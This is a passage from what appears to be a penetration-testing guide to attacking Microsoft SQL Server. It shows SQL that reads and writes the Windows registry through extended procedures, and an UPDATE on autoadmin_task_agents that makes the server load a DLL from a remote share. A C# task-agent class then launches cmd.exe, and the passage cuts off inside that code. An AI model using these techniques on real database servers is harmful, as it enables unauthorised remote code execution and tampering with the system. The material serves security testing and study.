 ```sql
# Example read registry
EXECUTE master.sys.xp_regread 'HKEY_LOCAL_MACHINE', 'Software\Microsoft\Microsoft SQL Server\MSSQL12.SQL2014\SQLServerAgent', 'WorkingDirectory';
# Example write and then read registry
EXECUTE master.sys.xp_instance_regwrite 'HKEY_LOCAL_MACHINE', 'Software\Microsoft\MSSQLSERVER\SQLServerAgent\MyNewKey', 'MyNewValue', 'REG_SZ', 'Now you see me!';
EXECUTE master.sys.xp_instance_regread 'HKEY_LOCAL_MACHINE', 'Software\Microsoft\MSSQLSERVER\SQLServerAgent\MyNewKey', 'MyNewValue';
# Example to check who can use these functions
Use master;
EXEC sp_helprotect 'xp_regread';
EXEC sp_helprotect 'xp_regwrite';
```

For **more examples** check out the [**original source**](https://blog.waynesheffield.com/wayne/archive/2017/08/working-registry-sql-server/).

### RCE with MSSQL User Defined Function - SQLHttp <a href="#mssql-user-defined-function-sqlhttp" id="mssql-user-defined-function-sqlhttp"></a>

It's possible to **load a .NET dll within MSSQL with custom functions**. This, however, **requires `dbo` access** so you need a connection with database **as `sa` or an Administrator role**.

[**Following this link**](../../pentesting-web/sql-injection/mssql-injection.md#mssql-user-defined-function-sqlhttp) to see an example.

### RCE with `autoadmin_task_agents`

According[ **to this post**](https://exploit7-tr.translate.goog/posts/sqlserver/?_x_tr_sl=es&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp), it's also possible to load a remote dll and make MSSQL execute it with something like:

```sql
update autoadmin_task_agents set task_assembly_name = "class.dll", task_assembly_path="\\remote-server\\ping.dll",className="Class1.Class1";
```

With:

```csharp
using Microsoft.SqlServer.SmartAdmin;
using System;
using System.Diagnostics;

namespace Class1
{
    public class Class1 : TaskAgent
    {
        public Class1()
        {

            Process process = new Process();
            process.StartInfo.FileName = "cmd.exe";
            process.StartInfo.Arguments = "/c ping localhost -t";
            process.StartInfo.UseShellExecute = false;
            process.StartInfo.RedirectStandardOutput = true;
            process.Start();
            process.WaitForExit();
        }

        public override void DoWork()
        {

        }

```